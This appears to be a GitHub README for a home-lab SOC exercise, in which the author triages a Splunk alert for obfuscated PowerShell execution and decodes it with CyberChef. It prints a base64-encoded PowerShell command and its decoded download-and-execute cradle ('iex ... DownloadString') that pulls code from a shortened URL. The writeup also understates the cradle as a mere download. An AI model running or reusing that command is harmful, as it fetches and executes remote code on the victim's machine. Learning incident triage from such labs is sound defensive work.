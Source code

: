 <h1>SOC-Lab-Incident-report </h1>

 

<h2>Introduction/Description</h2>
This project consists of a virtual lab SOC event simulation that I created. For this lab I was presented with log data that would purposly triger an alert on the SIEM tool(Splunk) that was running on my network. With the snapshots of data and tools that i used to investigate this alert. I will walk you through my thought process of how I triaged this whole event. 
<br />


<h2>Languages and Utilities Used</h2>

- <b>PowerShell</b> 
- <b>Splunk</b>
- <b>Linux VM</b>
- <b>Windows sandbox vm</b>
- <b>ANY.RUN(Sand Box Tool)</b>
- <b>Virus Total</b>
- <b>Cyber Chef</b>
<h2>Environments Used </h2>

- <b>Windows 7 sandbox VM</b>
- <b>Linux VM </b> 


<h2>Program walk-through:</h2>

<p align="left">
Splunk event alert : <br/>
<img src="https://i.imgur.com/TtKAjut.png height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br /> As shown in the splunk window, this is the event for the alert that we received in splunk. The alert the I received was for an execution of a process that is Obfuscated. In the splunk event viewer you can see the information provided such as time and date of the event, event Id, name of the user, username login of the user, type of ingested log data and more. 
<br />

 Splunk event alert :  <br/>
<img src="https://i.imgur.com/258BqEd.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br />
As you scroll down in the event viewer window in splunk you are given more information about the event. Here you can see the process information such as the "Creator process name"= C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe and the "Process Command line": "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -enc aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AYgBpAHQALgBsAHkALwBlADAATQB3ADkAdwAiACkA. This obfuscated command line is what caused our alert in splunk and is what we are going to be investigating. 
<br />

 ## Cyber Chef: <br/>
<img src="https://imgur.com/YPxZFGM.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br /> As you take a look at the process command line you can see that it obfuscated. After .exe which is the execute process you can see that it has -enc to encode the actual execution. So to see what the process command line is trying to do we need to decode it to see if it is malicious. As you can see I used a decryption tool called cyber chef. The output result I would get would be "iex (New-Object Net.WebClient).DownloadString("http://bit.ly/e0Mw9w")" which basically directs a user to the specified URL listed and allows them to download contents of the listed URL. 
